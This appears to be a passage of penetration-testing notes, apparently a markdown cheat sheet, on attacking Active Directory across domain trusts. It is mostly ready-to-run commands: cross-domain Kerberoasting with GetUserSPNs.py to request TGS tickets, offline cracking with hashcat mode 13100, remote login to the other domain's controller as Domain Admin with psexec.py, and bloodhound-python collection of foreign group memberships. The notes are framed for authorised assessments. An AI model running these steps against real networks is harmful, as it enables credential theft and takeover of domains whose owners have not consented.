 #### Find SPN Acoount Using GetUserSPNs.py
```bash
GetUserSPNs.py -target-domain <DOMAIN-2.LOCAL> <DOMAIN.LOCAL>/<-OUR-USER>:<PASS>
# Name:<USER-SRV>  , MemberOf: CN=Domain Admins,CN=Users,DC=DOMAIN-2.LOCAL
```
#### Get TGS of the SPN Acoount Using the -request Flag
Rerunning the command with the `-request` flag added gives us the TGS ticket. We could also add `-outputfile <OUTPUT FILE>` to output directly into a file that we could then turn around and run Hashcat against.
```bash
GetUserSPNs.py -request -target-domain <DOMAIN-2.LOCAL> <DOMAIN.LOCAL>/<-OUR-USER>:<PASS>
```
We could then attempt to crack this offline using Hashcat with mode `13100`
#### Cracking the Hash with Hashcat

```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt  
```
If successful, we'd be able to authenticate into the `DOAMIN-2.LOCAL` domain as a Domain Admin. If we are successful with this type of attack during a real-world assessment, it would also be worth checking to see if this account exists in our current domain and if it suffers from password re-use. This could be a quick win for us if we have not yet been able to escalate in our current domain. Even if we already have control over the current domain, it would be worth adding a finding to our report if we do find password re-use across similarly named accounts in different domains.
#### Login to DC of DOMAIN-2 
after cracking 
```bash
psexec.py <DOMAIN-2.LOCAL>/USER@COMPUTER-2-DC02.DOMAIN-2.LOCAL -target-ip <DOMAIN-2-DC02>
```
## 2- Hunting Foreign Group Membership with Bloodhound-python
Admins or users from one domain can appear in groups of another domain, especially via Domain Local Groups in a bidirectional forest trust. A privileged Domain A user may be in Domain B’s administrators group. From a Linux host, Python BloodHound can collect and analyze multi-domain data to find these relationships.

If our attack host lacks DNS, we must edit **resolv.conf** with sudo to add the domain and the DC’s IP (e.g., COMPUTER-DC01) as the nameserver, commenting out existing entries.
#### Adding DOMAIN.LOCAL Information to /etc/resolv.conf
```bash
cat /etc/resolv.conf 
  # mdomain DOMAIN.LOCAL
  # nameserver 172.16.5.5
```
Once this is in place, we can run the tool against the target domain as follows:
#### Running bloodhound-python Against DOMAIN.LOCAL
```bash
bloodhound-python -d <DOMAIN.LOCAL> -dc COMPUTER-DC01 -c All -u <USER> -p <PASSWORD>
# We can compress the resultant zip files
zip -r ilfreight_bh.zip *.json
```
